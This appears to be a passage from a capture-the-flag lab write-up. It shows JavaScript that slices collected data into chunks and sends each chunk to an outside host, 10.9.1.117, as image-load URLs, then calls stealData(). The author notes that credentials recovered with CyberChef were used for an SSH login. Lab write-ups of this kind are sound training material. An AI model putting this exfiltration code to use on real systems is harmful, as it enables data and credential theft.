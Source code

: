 ```js
				var exfilChunk = exfilData.slice(exfilChunkSize *i, exfilChunkSize * (i+1));
				// Let's use an external image load to get our data out
				// The file name we request will be the data we're exfiltrating
				var downloadImage = new Image();
				downloadImage.onload = function()
				{
					image.src = this.src;
				};
				// Try to async load the image, whose name is the string of data
				downloadImage.src = "http://10.9.1.117/exfil/" + i + "/" + exfilChunk + ".jpg";
			}
			// Now grab that last bit
			var exfilChunk = exfilData.slice(exfilChunkSize * numFullChunks, (exfilChunkSize * numFullChunks) + remainderBits);
			var downloadImage = new Image();
			downloadImage.onload = function()
			{
    			image.src = this.src;   
			};
			downloadImage.src = "http://10.9.1.117/exfil/" + "LAST" + "/" + exfilChunk + ".jpg";
			console.log("Done exfiling chunks..");
		}
	}
}

stealData();
```

And using **Cyberchef** we can get jack's credentials that we can use to login via SSH :

![Alt text](<../../../assets/images/THMPics/Pasted image 20240111142818.png>)
